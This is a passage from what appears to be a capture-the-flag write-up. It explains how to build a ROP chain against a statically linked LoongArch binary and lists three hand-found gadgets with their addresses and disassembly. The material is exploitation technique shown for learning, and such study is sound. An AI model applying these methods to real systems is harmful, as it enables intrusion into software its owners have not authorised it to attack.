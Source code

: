 but it would need to guess the stack address remotely, which was different from the local one.. so we will do a ROP.

The binary is compiled statically, so there are a lot of gadgets, but (as the time of writing) no tools exist to automatize the search of gadget for loongarch.

So you will have to use the old way.. use `objdump` to disassemble the binary like above, search visually for gadgets..

you can grep registers , instructions,  take notes of usefull gadgets..

this is the manual way..but with an educated eye, it's not difficult..just a bit more slow..

so here is the gadgets I have used:

```assembly
   12000c034:   28c0a061        ld.d            $ra, $sp, 40(0x28)
   12000c038:   28c08077        ld.d            $s0, $sp, 32(0x20)
   12000c03c:   28c06078        ld.d            $s1, $sp, 24(0x18)
   12000c040:   28c04079        ld.d            $s2, $sp, 16(0x10)
   12000c044:   28c0207a        ld.d            $s3, $sp, 8(0x8)
   12000c048:   02c0c063        addi.d          $sp, $sp, 48(0x30)
```

gadget0 = 0x12000c034

```  assembly
   12000b090:   28c1a061        ld.d            $ra, $sp, 104(0x68)
   12000b094:   001502e4        move            $a0, $s0
   12000b098:   28c18076        ld.d            $fp, $sp, 96(0x60)
   12000b09c:   28c16077        ld.d            $s0, $sp, 88(0x58)
   12000b0a0:   28c14078        ld.d            $s1, $sp, 80(0x50)
   12000b0a4:   28c12079        ld.d            $s2, $sp, 72(0x48)
   12000b0a8:   28c1007a        ld.d            $s3, $sp, 64(0x40)
   12000b0ac:   28c0e07b        ld.d            $s4, $sp, 56(0x38)
   12000b0b0:   28c0c07c        ld.d            $s5, $sp, 48(0x30)
   12000b0b4:   28c0a07d        ld.d            $s6, $sp, 40(0x28)
   12000b0b8:   02c1c063        addi.d          $sp, $sp, 112(0x70)
   12000b0bc:   4c000020        jirl            $zero, $ra, 0
```

gadget1 = 0x12000b090

```   assembly
   120048098:   0015008d        move            $t1, $a0
   12004809c:   28c12061        ld.d            $ra, $sp, 72(0x48)
   1200480a0:   28c02064        ld.d            $a0, $sp, 8(0x8)
   1200480a4:   28c04065        ld.d            $a1, $sp, 16(0x10)
   1200480a8:   28c06066        ld.d            $a2, $sp, 24(0x18)
   1200480ac:   28c08067        ld.d            $a3, $sp, 32(0x20)
   1200480b0:   28c0a068        ld.d            $a4, $sp, 40(0x28)
   1200480b4:   28c0c069        ld.d            $a5, $sp, 48(0x30)
   1200480b8:   28c0e06a        ld.d            $a6, $sp, 56(0x38)
   1200480bc:   28c1006b        ld.d            $a7, $sp, 64(0x40)
   1200480c0:   2b814060        fld.d           $fa0, $sp, 80(0x50)
   1200480c4:   2b816061        fld.d           $fa1, $sp, 88(0x58)
   1200480c8:   2b818062        fld.d           $fa2, $sp, 96(0x60)
   1200480cc:   2b81a063        fld.d           $fa3, $sp, 104(0x68)
   1200480d0:   2b81c064        fld.d           $fa4, $sp, 112(0x70)
   1200480d4:   2b81e065        fld.d           $fa5, $sp, 120(0x78)
   1200480d8:   2b820066        fld.d           $fa6, $sp, 128(0x80)
   1200480dc:   2b822067        fld.d           $fa7, $sp, 136(0x88)
   1200480e0:   02c24063        addi.d          $sp, $sp, 144(0x90)
   1200480e4:   4c0001a0        jirl            $zero, $t1, 0
```
